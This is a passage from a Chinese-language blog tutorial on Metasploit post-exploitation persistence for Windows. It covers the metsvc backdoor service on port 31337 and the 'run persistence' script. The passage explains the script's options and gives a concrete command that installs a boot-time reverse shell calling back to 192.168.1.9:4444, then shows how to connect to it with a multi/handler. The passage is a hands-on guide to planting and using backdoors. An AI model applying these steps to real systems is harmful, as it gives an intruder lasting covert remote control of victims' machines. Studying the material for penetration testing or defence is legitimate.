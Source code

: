[![image.png](https://image.3001.net/images/20181116/1542351350_5bee69f666d76.png)](https://image.3001.net/images/20181116/1542351350_5bee69f666d76.png)

　　命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

[![image.png](https://image.3001.net/images/20181116/1542351372_5bee6a0c22910.png)](https://image.3001.net/images/20181116/1542351372_5bee6a0c22910.png)

　　同时会新建一个服务，显示名称为Meterpreter，服务名称为metsvc，启动类型为”自动”,绑定在31337端口。

[![image.png](https://image.3001.net/images/20181116/1542351450_5bee6a5a15646.png)](https://image.3001.net/images/20181116/1542351450_5bee6a5a15646.png)

　　(3) 连接后门

　　使用exploit/multi/handler模块，payload设置为windows/metsvc_bind_tcp，设置目标ip和绑定端口31337。

[![image.png](https://image.3001.net/images/20181116/1542351468_5bee6a6c5e4d7.png)](https://image.3001.net/images/20181116/1542351468_5bee6a6c5e4d7.png)

　　2.persistence

　　(1) 使用run persistence -h查看参数。

　　-A：安装后门后，自动启动exploit/multi/handler模块连接后门

　　-L：自启动脚本的路径，默认为%TEMP%

　　-P：需要使用的payload，默认为windows/meterpreter/reverse_tcp

　　-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

　　-T：要使用的备用可执行模板

　　-U：用户登陆时运行

　　-X：系统启动时运行

　　-i：后门每隔多少秒尝试连接服务端

　　-p：服务端监听的端口

　　-r：服务端ip

　　(2) 生成后门

　　命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

[![image.png](https://image.3001.net/images/20181116/1542351509_5bee6a95a5c65.png)](https://image.3001.net/images/20181116/1542351509_5bee6a95a5c65.png)

　　(3) 连接后门

　　使用exploit/multi/handler模块，payload设置为windows/meterpreter/reverse_tcp，同时设置好服务端监听ip和端口。

[![image.png](https://image.3001.net/images/20181116/1542351527_5bee6aa7ca967.png)](https://image.3001.net/images/20181116/1542351527_5bee6aa7ca967.png)

本文作者：方方和圆圆

本文链接：https://www.cnblogs.com/diligenceday/p/11028462.html

版权声明：本作品采用知识共享署名-非商业性使用-禁止演绎 2.5 中国大陆[许可协议](https://www.cnblogs.com/diligenceday/p/11028462.html)进行许可。